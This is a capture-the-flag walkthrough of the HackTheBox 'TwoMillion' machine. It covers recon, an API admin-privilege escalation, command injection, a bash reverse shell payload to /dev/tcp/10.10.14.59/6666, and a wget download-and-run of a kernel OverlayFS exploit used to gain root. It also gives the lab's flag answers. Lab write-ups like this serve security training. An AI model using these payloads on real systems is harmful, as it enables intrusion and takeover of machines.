# HackTheBox **TwoMillion**  
**Difficulty:** Easy  
**Platform:** Linux  

## Reconnaissance:
I'll start with a simple nmap scan on the IP.

```bash
nmap -sC -sV -oN outputNMAP.txt $IP 
```



Let's take a look at port 80. We find a join and login section.


Let's take a look at the join section. 



We can see we need an invite code. Looking at the source code of the page, in the "inviteapi.min.js" we find a function called "makeInviteCode". Using it in the console we get this:



We can see ROT13 is used to encrypt the string. Using cyberchef to decrypt it we get "In order to generate the invite code, make a POST request to /api/v1/invite/generate".

I'll refresh the page and intercept the request using Burp Suite where I'll modify it so that we get an invite code.



I'll also make it intercept the response to this request.



Succes! We have a base64 encoded invite code. We can guess it's base64 because of the "=" at the end of the string. Using cyberchef to decode it we get "ZSYWX-PXE18-A0LC1-C5IV7". Now we need to make an account with that invitecode.



And after we register and login we get access to a new page. I find "Access" page to be interesting.



I'll use BurpSuite to see if I can learn more about the API used. I'll use Repeater for this.

Sending a "GET" request to "/api/v1" we get the following:



As we can see, there is an "update user settings" options. So I'll try to update my user settings.



We can access the page but the type of content we use is invalid. That's because the body of the request is empty. The response comes in a JSON form so I'll try to send my email in JSON form.



We need to add the "is_admin" parameter as well.



It worked! Now I'll check if "/api/v1/admin/vpn/generate" is vulnerable to command injection.



Sending the payload ";sleep 5" reveals that this page is vulnerable to command injection. So I'll use netcat un my machine to listen for a connection and send a reverse shell payload through the "generate" page.

On host:
```bash
rlwrap nc -lnvp 6666
```

Reverse Shell payload:
```bash
;bash -c 'bash -i >& /dev/tcp/10.10.14.59/6666 0>&1'
```



It worked!I'll upgrade the shell and get the user flag.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
[Ctrl+z]
stty raw -echo
fg
export TERM=tmux-256color
ssty rows 67 columns 318
cd /home
ls
cd /admin
cat user.txt
```



As we can see, we first need to find a privelege escalation vector. Looking at the /var/mail/admin file we find out the kernel is old. We also see somethinf about OverlayFS / FUSE so I'll search for that.

I found this : https://github.com/DataDog/security-labs-pocs/blob/main/proof-of-concept-exploits/overlayfs-cve-2023-0386/poc.c .I'll compile it on my machine and transfer the executable with a simple python server.

On host:
```bash
gcc poc.c -o poc -D_FILE_OFFSET_BITS=64 -static -lfuse -ldl
python3 -m http.server -b 10.10.14.59 80
```

On target:
```bash
cd /tmp
wget http://10.10.14.59:80/poc
chmod +x poc
./poc
whoami
```



It worked! Now that we are root let's get those flags.

```bash
cat /home/admin/user.txt
cat /root/root.txt
```

## User Flag : 8381907882cd30ab35628e3f37504362

## Root Flag : 02182746f56e4f720ac05af05280700f